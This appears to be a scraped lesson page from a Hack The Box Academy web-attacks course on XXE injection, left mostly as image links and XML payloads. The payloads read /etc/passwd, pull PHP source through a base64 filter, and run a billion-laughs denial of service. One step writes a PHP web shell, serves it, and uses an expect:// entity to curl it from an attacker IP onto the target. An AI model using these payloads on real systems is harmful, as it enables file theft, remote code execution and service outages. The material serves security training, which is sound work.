 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/134/section/1204
// Platform Version: V1
// Module ID: 134
// Module Name: Web Attacks
// Module Difficulty: Medium
// Section ID: 1204
// Section Title: Local File Disclosure
// Page Title: Web Attacks
// Page Number: 14
-->

# Local File Disclosure

**Module Name:** Web Attacks **Page Number:** 14

#### WEB ATTACKS

# Local File Disclosure

## Identifying

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_identify.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_identify.jpg)

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_request.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_request.jpg)

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_response.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_response.jpg)

``` xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_new_entity.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_new_entity.jpg)

## Reading Sensitive Files

``` xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_external_entity.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_external_entity.jpg)

## Reading Source Code

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_file_php.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_file_php.jpg)

``` xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_filter.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_filter.jpg)

## Remote Code Execution with XXE

``` shell-session
[!bash!]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
[!bash!]$ sudo python3 -m http.server 80
```

``` xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

## Other XXE Attacks

``` xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

# 

# 

#### Questions

####